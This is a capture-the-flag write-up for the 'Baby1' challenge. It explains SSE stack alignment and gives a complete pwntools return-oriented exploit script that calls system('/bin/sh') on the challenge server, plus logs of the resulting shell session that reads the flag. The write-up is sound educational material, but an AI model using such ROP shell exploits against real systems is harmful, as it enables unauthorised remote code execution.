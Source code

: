 ## Baby1
### Category : Misc

---

So, after decompilation in Ghidra, looking at the strings. It looked like [BabyRop](../Harekaze/Babyrop.md) from Harekaze CTF. But the script didn't work. It kept giving a segmentation fault. After some research, I came across that Ubuntu uses SSE Registers in its libc functions.

SSE Registers need memory aligned with the registers for the commands to be executed. So we need to pad the payload with `ret` insturctions for it to work.



---

### Unintended Solution. 

---

So, while working on the problem, my offset function failed, and returned -1. For some reason, that gave me an access to the shell. Giving me the flag.

So, to get the bug again, I set offset = -1. 

exploit.py

```
from pwn import *

def get_offset(elf):
    io = process(elf.path)
    io.sendline(cyclic(2010))
    io.wait()
    core = io.corefile
    stack = core.rsp
    info("%#x stack", stack)
    pattern = core.read(stack, 4)
    info("%r pattern", pattern)
    offset = cyclic_find(pattern)
    info("OFFSET : %s",offset)
    return offset

elf = context.binary = ELF('baby1')

offset = -1

shell = next(elf.search("/bin/sh"))

system = elf.symbols.system

ret = 0x000000000040053e
pop_gadget = 0x0000000000400793

info("SYSTEM : %#x" , system)
info ("SHELL : %#x", shell)
info("POP Gadget : %#x",pop_gadget)
shell = p64(shell)
system = p64(system)
ret = p64(ret)
pop_gadget = p64(pop_gadget)
info("SYSTEM : %s" , system)
info ("SHELL : %s", shell)
info("POP Gadget : %s",pop_gadget)

payload = 'A'*(offset)
payload += ret*8
payload += pop_gadget
payload += shell
payload += system

print(len(payload))
#io = process(elf.path)
io = remote('baby-01.pwn.beer',10001)
#payload = "A"*40 + gadget + print_flag + system
io.recvuntil("input: ")
io.sendline(payload)
io.interactive()
```

Output

```
python2 exploit.py           Thursday 23 May 2019 09:34:57 PM IST
[*] '/home/vipul/Desktop/sec_fest/baby1/baby1'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] SYSTEM : 0x400560
[*] SHELL : 0x400286
[*] POP Gadget : 0x400793
[*] SYSTEM : `\x05@\x00\x00\x00\x00\x00
[*] SHELL : \x86@\x00\x00\x00\x00\x00
[*] POP Gadget : \x93\x07@\x00\x00\x00\x00\x00
88
[+] Opening connection to baby-01.pwn.beer on port 10001: Done
[*] Switching to interactive mode
$ whoami
baby1
$ ls
baby1
flag
redir.sh
$ cat flag
sctf{1.p0p_r3GIs73rS_2.pOp_5H3lL_3.????_4.pr0FiT}
$ exit
/home/baby1/redir.sh: line 2:  1646 Segmentation fault      (core dumped) ./baby1
[*] Got EOF while reading in interactive
$ 
$ 
[*] Closed connection to baby-01.pwn.beer port 10001
[*] Got EOF while sending in interactive
 ~/D/s/baby1  code exploit.py      11.8s  Thursday 23 May 2019 09:35:35 PM IST
 ~/D/s/baby1                       191ms  Thursday 23 May 2019 09:36:12 PM IST
 ~/D/s/baby1  python2 exploit.py   191ms  Thursday 23 May 2019 09:36:49 PM IST
[*] '/home/vipul/Desktop/sec_fest/baby1/baby1'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] SYSTEM : 0x400560
[*] SHELL : 0x400286
[*] POP Gadget : 0x400793
[*] SYSTEM : `\x05@\x00\x00\x00\x00\x00
[*] SHELL : \x86@\x00\x00\x00\x00\x00
[*] POP Gadget : \x93\x07@\x00\x00\x00\x00\x00
88
[+] Opening connection to baby-01.pwn.beer on port 10001: Done
[*] Switching to interactive mode
$ whoami
baby1
$ ls
baby1
flag
redir.sh
$ cat flag
sctf{1.p0p_r3GIs73rS_2.pOp_5H3lL_3.????_4.pr0FiT}
$ exit
/home/baby1/redir.sh: line 2:  1672 Segmentation fault      (core dumped) ./baby1
$ 
[*] Got EOF while reading in interactive
$ 
[*] Closed connection to baby-01.pwn.beer port 10001
[*] Got EOF while sending in interactive
```